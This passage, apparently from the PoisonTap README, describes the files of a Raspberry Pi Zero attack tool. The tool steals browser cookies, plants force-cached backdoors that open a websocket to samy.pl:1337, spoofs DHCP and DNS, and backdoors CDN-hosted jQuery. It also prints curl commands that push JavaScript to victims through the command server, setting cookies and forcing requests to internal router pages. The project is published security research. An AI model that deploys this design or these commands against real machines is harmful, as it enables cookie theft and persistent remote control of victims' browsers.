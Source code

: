 * **backdoor.html** - Whenever a http://hostname/PoisonTap URL is hit to exfiltrate cookies, this file is what is returned as the force-cached content. It contains a backdoor that produces an outbound websocket to samy.pl:1337 (adjustable to any host/port) that remains opens waiting for commands from the server. This means when you load an iframe on a site, such as http://hostname/PoisonTap, this is the content that gets populated (even after PoisonTap is removed from the machine).
* **backend_server.js** - This is the Node.js server that you run on your Internet-accessible server. It is what the backdoor.html connects to (eg, samy.pl:1337). This is the same server you connect to to send commands to your PoisonTapped minion machines, eg

```bash
# pop alert to victim
curl 'http://samy.pl:1337/exec?alert("muahahahaha")'
# to set a cookie on victim
curl 'http://samy.pl:1337/exec?document.cookie="key=value"'
# to force victim to load a url via ajax (note, jQuery is stored inside the backdoor)
curl 'http://samy.pl:1337/exec?$.get("http://192.168.0.1.ip.samy.pl/login",function(d)\{console.log(d)\})'
```
* **pi_poisontap.js** - This runs via Node.js on the Raspberry Pi Zero and is the HTTP server responsible for handling any HTTP requests intercepted by PoisonTap, storing siphoned cookies, and injecting the cached backdoors.
* **pi_startup.sh** - This runs upon startup on the Raspberry Pi Zero in order to set the device up to emulate an Ethernet-over-USB gadget, set up our evil DHCP server, allow traffic rerouting, DNS spoofing, and to launch pi_poisontap.js above. 
* **target_backdoor.js** - This file is prepended to any CDN-related Javascript files, thus backdooring them, e.g. Google CDN's jQuery URL.
* **target\_injected\_xhtmljs.html** - This is the code that gets injected into unintentional/background HTTP/AJAX requests on the victim's machine and spawns the entire attack. It is constructed in a way that it can be interpreted as HTML or as Javascript and still execute the same code. Additionally, the amazing HTML5 canvas is by the incredible <a href="http://codepen.io/ara_node/" target=_blank>Ara on CodePen</a> and was too amazing not to include. This is the graphical craziness that appears when the page gets taken over by PoisonTap.
* **poisontap.cookies.log** - This file is generated once the user's machine starts sending HTTP requests to PoisonTap and logs the cookie from the browser along with the associated URL/domain it belongs to.

-----

# Contact

**Point of Contact:** <a href="https://twitter.com/samykamkar" target=_blank>@SamyKamkar</a>

You can see more of my projects or contact me at <a href="https://samy.pl" target=_blank>https://samy.pl</a>.